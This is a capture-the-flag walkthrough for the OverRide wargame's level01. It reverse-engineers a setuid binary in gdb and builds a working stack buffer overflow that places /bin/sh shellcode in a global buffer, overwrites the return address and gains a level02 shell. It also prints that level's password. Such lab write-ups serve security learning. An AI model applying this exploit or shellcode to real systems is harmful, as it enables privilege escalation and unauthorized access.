

# Level01

## Walkthrough

We list the files in the current home directory.

```bash
level01@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level01 level01   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level01 level01  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level01 level01 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level01 level01   41 Oct 19  2016 .pass
-rw-r--r--  1 level01 level01  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
level01@OverRide:~$ file level01 
level01: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x923fd646950abba3d31df70cad30a6a5ab5760e8, not stripped
```

The file `level01` is owned by **level02** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  printf
0x08048360  printf@plt
0x08048370  fgets
0x08048370  fgets@plt
0x08048380  puts
0x08048380  puts@plt
0x08048390  __gmon_start__
0x08048390  __gmon_start__@plt
0x080483a0  __libc_start_main
0x080483a0  __libc_start_main@plt
0x080483b0  _start
0x080483e0  __do_global_dtors_aux
0x08048440  frame_dummy
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
0x080485c0  __libc_csu_init
0x08048630  __libc_csu_fini
0x08048632  __i686.get_pc_thunk.bx
0x08048640  __do_global_ctors_aux
0x0804866c  _fini
```

There are 3 user-defined functions: `verify_user_name()`, `verify_user_pass()` and `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   ebp
   0x080484d1 <+1>:     mov    ebp,esp
   0x080484d3 <+3>:     push   edi
   0x080484d4 <+4>:     push   ebx
   0x080484d5 <+5>:     and    esp,0xfffffff0
   0x080484d8 <+8>:     sub    esp,0x60
   0x080484db <+11>:    lea    ebx,[esp+0x1c]
   0x080484df <+15>:    mov    eax,0x0
   0x080484e4 <+20>:    mov    edx,0x10
   0x080484e9 <+25>:    mov    edi,ebx
   0x080484eb <+27>:    mov    ecx,edx
   0x080484ed <+29>:    rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:    mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:    mov    DWORD PTR [esp],0x80486b8
   0x080484fe <+46>:    call   0x8048380 <puts@plt>
   0x08048503 <+51>:    mov    eax,0x80486df
   0x08048508 <+56>:    mov    DWORD PTR [esp],eax
   0x0804850b <+59>:    call   0x8048360 <printf@plt>
   0x08048510 <+64>:    mov    eax,ds:0x804a020
   0x08048515 <+69>:    mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:    mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:    mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:    call   0x8048370 <fgets@plt>
   0x0804852d <+93>:    call   0x8048464 <verify_user_name>
   0x08048532 <+98>:    mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:   je     0x8048550 <main+128>
   0x0804853d <+109>:   mov    DWORD PTR [esp],0x80486f0
   0x08048544 <+116>:   call   0x8048380 <puts@plt>
   0x08048549 <+121>:   mov    eax,0x1
   0x0804854e <+126>:   jmp    0x80485af <main+223>
   0x08048550 <+128>:   mov    DWORD PTR [esp],0x804870d
   0x08048557 <+135>:   call   0x8048380 <puts@plt>
   0x0804855c <+140>:   mov    eax,ds:0x804a020
   0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:   lea    eax,[esp+0x1c]
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
   0x08048579 <+169>:   lea    eax,[esp+0x1c]
   0x0804857d <+173>:   mov    DWORD PTR [esp],eax
   0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:   mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
   0x08048597 <+199>:   mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>:   call   0x8048380 <puts@plt>
   0x080485a3 <+211>:   mov    eax,0x1
   0x080485a8 <+216>:   jmp    0x80485af <main+223>
   0x080485aa <+218>:   mov    eax,0x0
   0x080485af <+223>:   lea    esp,[ebp-0x8]
   0x080485b2 <+226>:   pop    ebx
   0x080485b3 <+227>:   pop    edi
   0x080485b4 <+228>:   pop    ebp
   0x080485b5 <+229>:   ret
End of assembler dump.
```

The `main()` function:
- iterates from `[esp + 0x1c]` for a total of 64 bytes, 4 by 4, to set the bytes to 0
- calls `puts()` to write some text on stdin
- calls `printf()` to ask the user to input an username on stdin
- calls `fgets()` to store the user input to `0x804a040` up to 256 bytes
- calls `verify_user_name()`
- stores the value returned from `verify_user_name()` in `[esp + 0x5c]`, compares it with `0x0` and quits the program if it's not equal
- calls `puts()` to ask the user to input a password on stdin
- calls `fgets()` to store the user input to `[esp + 0x1c]` up to 100 bytes
- calls `verify_user_pass()`
- stores the value returned from `verify_user_pass()` in `[esp + 0x5c]`, and compares it with `0x0`
```
(gdb) disas verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>:     push   ebp
   0x08048465 <+1>:     mov    ebp,esp
   0x08048467 <+3>:     push   edi
   0x08048468 <+4>:     push   esi
   0x08048469 <+5>:     sub    esp,0x10
   0x0804846c <+8>:     mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>:    call   0x8048380 <puts@plt>
   0x08048478 <+20>:    mov    edx,0x804a040
   0x0804847d <+25>:    mov    eax,0x80486a8
   0x08048482 <+30>:    mov    ecx,0x7
   0x08048487 <+35>:    mov    esi,edx
   0x08048489 <+37>:    mov    edi,eax
   0x0804848b <+39>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:    seta   dl
   0x08048490 <+44>:    setb   al
   0x08048493 <+47>:    mov    ecx,edx
   0x08048495 <+49>:    sub    cl,al
   0x08048497 <+51>:    mov    eax,ecx
   0x08048499 <+53>:    movsx  eax,al
   0x0804849c <+56>:    add    esp,0x10
   0x0804849f <+59>:    pop    esi
   0x080484a0 <+60>:    pop    edi
   0x080484a1 <+61>:    pop    ebp
   0x080484a2 <+62>:    ret
End of assembler dump.
```

The `verify_user_name()` function:
- calls `puts()` to write some text on stdin
- iterates over `0x804a040` and `0x80486a8`, up to 7 bytes, and compares if their values are equal
- stores the content of the `ecx` counter in `eax` (which is equal to 0 if both strings are equal)

```
(gdb) x/s 0x80486a8
0x80486a8:       "dat_wil"
```

The string located in `0x80486a8` is `dat_wil`.

```
(gdb) disas verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>:     push   ebp
   0x080484a4 <+1>:     mov    ebp,esp
   0x080484a6 <+3>:     push   edi
   0x080484a7 <+4>:     push   esi
   0x080484a8 <+5>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:     mov    edx,eax
   0x080484ad <+10>:    mov    eax,0x80486b0
   0x080484b2 <+15>:    mov    ecx,0x5
   0x080484b7 <+20>:    mov    esi,edx
   0x080484b9 <+22>:    mov    edi,eax
   0x080484bb <+24>:    repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:    seta   dl
   0x080484c0 <+29>:    setb   al
   0x080484c3 <+32>:    mov    ecx,edx
   0x080484c5 <+34>:    sub    cl,al
   0x080484c7 <+36>:    mov    eax,ecx
   0x080484c9 <+38>:    movsx  eax,al
   0x080484cc <+41>:    pop    esi
   0x080484cd <+42>:    pop    edi
   0x080484ce <+43>:    pop    ebp
   0x080484cf <+44>:    ret
End of assembler dump.
```

The `verify_user_pass()` function:
- iterates over `[ebp + 0x8]` and `0x80486b0`, up to 5 bytes, and compares if their values are equal
- stores the content of the `ecx` counter in `eax` (which is equal to 0 if both strings are equal)

```
(gdb) x/s 0x80486b0
0x80486b0:       "admin"
```

The string located in `0x80486b0` is `admin`.

We draw a diagram of the `main()` stack frame.



We figure out something interesting: `[esp + 0x1c]` is the start of the second `fgets()` buffer which can store up to 100 bytes, but there is only 80 bytes between `[esp + 0x1c]` and `old eip`. It means we can overwrite the `old eip` value with a **buffer overflow** in order to call our shellcode which will execute `/bin/sh`.

To solve this level, we have to:
- pass `dat_wil` as first input to reach the second `fgets()` call
- pass our shellcode as second input, followed by x random characters for a total of 80 bytes, and the address of `[esp + 0x1c]` which will be the start of our shellcode

We set a breakpoint before the second `fgets()` in order to get the address of the buffer.

```
(gdb) b *0x08048574
Breakpoint 1 at 0x8048574
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 

Breakpoint 1, 0x08048574 in main ()
(gdb) i r esp
esp            0xffffd5c0       0xffffd5c0
(gdb) x/4wx 0xffffd5c0
0xffffd5c0:     0xffffd5dc      0x00000064      0xf7fcfac0      0xf7ec34fb
```

The address we are looking for is `0xffffd5dc`.

```bash
level01@OverRide:~$ (python -c "print('dat_wil')"; python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * 25 + '\xdc\xd5\xff\xff')"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
Segmentation fault (core dumped)
```

Our solution doesn't work.

Instead of passing our shellcode in the second buffer, we retry this time using the address used by the first `fgets()` call: `0x804a040`. But because the program expects the `dat_wil` string, we have to increment it by 7 bytes to target the start of our shellcode.  
Obviously, we still have to overflow the second buffer and terminate the string with the target address: `0x804a047`.

```bash
level01@OverRide:~$ (python -c "print('dat_wil' + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')"; python -c "print('A' * 80 + '\x47\xa0\x04\x08')"; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

$ whoami
level02
$ cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
